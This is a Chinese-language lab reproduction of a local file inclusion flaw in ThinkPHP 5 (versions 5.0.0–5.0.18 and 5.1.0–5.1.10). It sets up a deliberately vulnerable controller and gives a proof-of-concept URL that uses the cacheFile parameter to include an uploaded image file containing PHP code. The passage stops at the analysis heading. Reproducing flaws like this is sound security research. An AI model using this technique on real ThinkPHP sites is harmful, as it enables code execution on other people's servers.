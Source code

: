 thinkphp5 本地文件包含复现
--

### 漏洞简介

本次漏洞存在于 ThinkPHP 模板引擎中，在加载模版解析变量时存在变量覆盖问题，而且程序没有对数据进行很好的过滤，最终导致 文件包含漏洞 的产生。漏洞影响版本： 5.0.0<=ThinkPHP5<=5.0.18 、5.1.0<=ThinkPHP<=5.1.10。

### 复现环境

linux集成环境：lammp
thinkphp 5.0.18

### 利用方法

更改application/index/controller/Index.php 控制器的代码，如下：

```php
<?php
namespace app\index\controller;
use think\Controller;
class Index extends Controller
{
    public function index()
    {
        $this->assign(request()->get());
        return $this->fetch(); // 当前模块/默认视图目录/当前控制器（小写）/当前操作（小写）.html
    }
}
```

然后创建文件application/index/view/index/index.html,内容随意，必须有这个文件，否则会报错。

然后在public目录下创建一个123.jpg文件，这个是为了模拟真实环境中的文件上传。最后只需要访问如下url
`http://127.0.0.1/thinkphp5018/public/index/index/index?cacheFile=123.jpg`,就会得到phpinfo信息，其中123.jpg文件的内容为

```php
<?php
phpinfo();
?>
```
![](assets/phpinfo.png)

### 漏洞分析

